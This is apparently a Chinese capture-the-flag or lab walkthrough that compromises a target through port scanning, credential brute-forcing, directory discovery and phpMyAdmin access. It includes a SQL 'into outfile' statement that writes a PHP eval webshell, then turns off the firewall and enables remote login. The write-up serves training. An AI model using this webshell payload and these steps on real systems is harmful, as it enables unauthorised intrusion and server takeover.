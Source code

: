 一、ip、端口扫描

二、爆破用户名密码，在单个变量中自定义进行爆破

![image-20241126223858681](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126223858681.png)

![image-20241127223834078](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241127223834078.png)

三、静态页面伪造`/xxx`爆破目录，robots得到key6和/news/禁访目录

![image-20241126224336437](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126224336437.png)

![image-20241126224943234](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126224943234.png)

![image-20241126225108302](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126225108302.png)

扫描/news/子目录

![image-20241126230754826](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126230754826.png)

找到相应的留言系统后台/news/phpmydamin/index.php

![image-20241126231631607](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126231631607.png)

![image-20241126232112032](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126232112032.png)

找到admin密码，先备份防止找错及时恢复原数据，

然后在数据库编辑中修改密码，执行两次MD5解密，登录成功

![image-20241126233536039](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126233536039.png)

知道绝对路径，则可以进行sql写马

```
select '<?php @eval($_POST["x"]); ?>' into outfile 'C:/wamp/www/shell.php'
```

访问http://11.1.10.83:125/shell.php成功，蚁剑连接

![image-20241126234616566](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126234616566.png)

远程登录，开启远程服务、关防火墙、改密码，得到key8

![image-20241126235617775](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126235617775.png)
